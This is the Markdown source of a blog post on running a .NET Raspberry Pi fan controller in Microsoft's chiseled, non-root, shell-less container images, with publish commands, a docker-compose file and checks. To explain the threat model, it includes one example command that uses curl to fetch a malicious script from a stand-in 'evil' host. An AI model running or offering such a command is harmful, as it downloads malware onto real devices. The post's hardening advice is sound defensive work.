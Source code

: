 ```yaml
---
layout: post
title: Using chiseled base images for a .NET app on a Raspberry Pi
description: Make your apps more secure by limiting the container's capabilities
comment_issue_id: 24
---
```


[In the last post]({{ site.baseurl }}/2024/01/21/SDK-container-building-tools.html), I showed you how to use the .NET SDK Container Building Tools that ship with .NET 8 to make building Docker images easier by removing the `Dockerfile` clutter.  
In this post, I want to show you how this became handy when migrating one of my apps to Docker.

## Introducing the _Raspi Fan Controller_ project

Some years ago, I bought a Raspberry Pi 4 and while getting into touch with this neat mini computer, I read several times that it might get pretty hot and should better be run with a heat sink. So I decided to attach a small CPU fan and build a custom fan controller software based on .NET ([read more about it here]({{ site.baseurl }}/2020/04/24/Raspi-Fan-Controller_p1)) - the [Raspi Fan Controller project](https://github.com/mu88/RaspiFanController).

At the very beginning, I deployed it as a self-contained executable (no need to install .NET) on bare metal. However, since all of my other apps are running in Docker, I decided to containerize it, too.  
The most tricky piece of this containerization was to learn about how to map the necessary paths and devices (like the Raspi's GPIO pins) into a container. Finally, I found a working solution with a lot of help from the community and so the _Raspi Fan Controller_ was running inside a container, too.

## Chiseled base images for .NET

To be honest: when I first read the word _chiseled_, I thought about it being a typo 😅 it came to my attention when reading another excellent blog post from Rich Landers: [Announcing .NET Chiseled Containers](https://devblogs.microsoft.com/dotnet/announcing-dotnet-chiseled-containers/)

If you never heard about it, here's my very brief takeaway of the concept: Docker images are made up of layers and the lowest layers are very similar to a lightweight OS and contain necessary vital libraries and tools (e. g. a shell).  
When running a container, however, it might not always be necessary to have a shell. Even more, consider a malicious component inside the container being able to run a shell and download and execute further malware via `curl https://this.is.evil/killThisDevice.ps1`.  
Chiseled images mitigate those issues by two approaches:
1. They are non-root by default (so you can't run `apt install` to install further tools).
2. They are stripped down to the bare minimum (there isn't even the `apt` tool nor a shell).

This way, a malicious component can do way less harm.

Microsoft provides chiseled base images for .NET for Ubuntu Jammy and they are tagged with the suffix `-chiseled`, e. g. `mcr.microsoft.com/dotnet/aspnet:8.0-jammy-chiseled`.

Another neat benefit of chiseled images is that they are way smaller. That makes sense as they contain less tools and are stripped down. For example, the ASP.NET Core 8 image for Ubuntu Jammy is 216 MB big - the chiseled counterpart only 110 MB.

## And why do you care?

Well, that's a perfect question! One could definitely argue that in my private home network, the chance of a malicious attack might be negligibly. On the other hand, it's a nice apprentice piece to get used to the technology and better safe than sorry.

## Using chiseled images for the _Raspi Fan Controller_ project

Since I had already containerized my project and made use of the .NET SDK Container Building Tools, providing a chiseled variant is fairly easy:

{% highlight shell %}

dotnet publish --os linux --arch arm64 /t:PublishContainer \
    -p:ContainerRegistry=registry.hub.docker.com \
    '-p:ContainerImageTags="1.0.0;latest"'

dotnet publish --os linux --arch arm64 /t:PublishContainer \
    -p:ContainerRegistry=registry.hub.docker.com \
    '-p:ContainerImageTags="1.0.0-chiseled;latest-chiseled"' \
    -p:ContainerFamily=jammy-chiseled

{% endhighlight %}

The first command we already know from the first blog post: it builds a Docker image for the Raspi's `arm64` architecture, using the non-chiseled base images by default.  
For the second command, the parameter `ContainerFamily` is set to `jammy-chiseled` and that instructs the .NET SDK Container Building Tools to use the chiseled base image. To easily distinguish it, I use dedicated tags with the suffix `-chiseled`.

## Running the chiseled image

To create a Docker container from the chiseled image, the following `docker-compose.yml` can be used:

{% highlight yaml %}

version: '3'
services:
  raspifancontroller:
    container_name: raspifancontroller
    image: mu88/raspifancontroller:latest-chiseled
    ports:
      - 127.0.0.1:5000:8080
    user: "1654:997" # group 997 is necessary to access the GPIO pins
    volumes:
      - /sys/class/thermal/thermal_zone0:/sys/class/thermal/thermal_zone0:ro # CpuTemperature needs this
    devices:
      - /dev/gpiomem

{% endhighlight %}

Let's dissect it piece by piece:
- The previously created image `mu88/raspifancontroller:latest-chiseled` is pulled and the container named `raspifancontroller` exposes its port `8080` via `5000` to the host. So far, this is basic ASP.NET Core 8.
- The user ID (UID) is set to `1654`. This is a _magic number_ for the new `app` user with non-root capabilities - another .NET 8 feature (read more about it here: [Secure your .NET cloud apps with rootless Linux Containers](https://devblogs.microsoft.com/dotnet/securing-containers-with-rootless/))
- The user's group ID (GID) is set to `997`. This is the first important piece to notice as this group has the necessary permissions to control the Raspi's GPIO pins.
- The host file `/sys/class/thermal/thermal_zone0` is mapped into the container as read-only (notice the `:ro` suffix). This file contains the Raspi's current CPU temperature and is necessary for the fan controller.
- Lastly, the device `/dev/gpiomem` is mapped which actually represents the GPIO pins.

When running `docker compose up -d`, a Docker container will be started.

## See chiseled in action

Let's recap the benefits of chiseled images from the beginning:
- non-root by default
- reduced to the bare minimum (i. e. no shell)

Let's validate these statements!

### No shell

If there'd be a shell, we could connect to the container via `docker exec -it <<container>> bash`, so let's try it:

{% highlight shell %}
myUser@myRaspi:~ $ docker exec -it raspifancontroller bash
OCI runtime exec failed: exec failed: unable to start container process: exec: "bash": executable file not found in $PATH: unknown
{% endhighlight %}

Nice, we get an error indicating that there is no shell ✅

### Non-root by default

If there's no shell, how can we validate that the user has only limited permissions and cannot execute commands like `apt install`? We can check with a Docker command which user ID the process running inside the container has, because on Linux, the `root` user always has the UID `0`.

{% highlight shell %}
myUser@myRaspi:~ $ docker top raspifancontroller
UID    PID   PPID  C  STIME  TTY  TIME      CMD
1654  1796  1704  1  Mar22  ?    04:15:47  dotnet RaspiFanController.dll
{% endhighlight %}

Cool, we see that the .NET assembly `RaspiFanController.dll` is running with the `app`'s UID `1654`, i. e. as non-root ✅

## Closing

And with that, I want to close this mini-series about non-root and chiseled containers, built with the .NET SDK Container Building Tools.

I hope you enjoyed it - have a great time and take care 👋🏻

PS: I'm very proud that some parts of this journey even made it into the official Microsoft docs: [Control GPIO pins within rootless Docker container on Raspberry Pi](https://github.com/dotnet/iot/blob/main/Documentation/raspi-Docker-GPIO.md)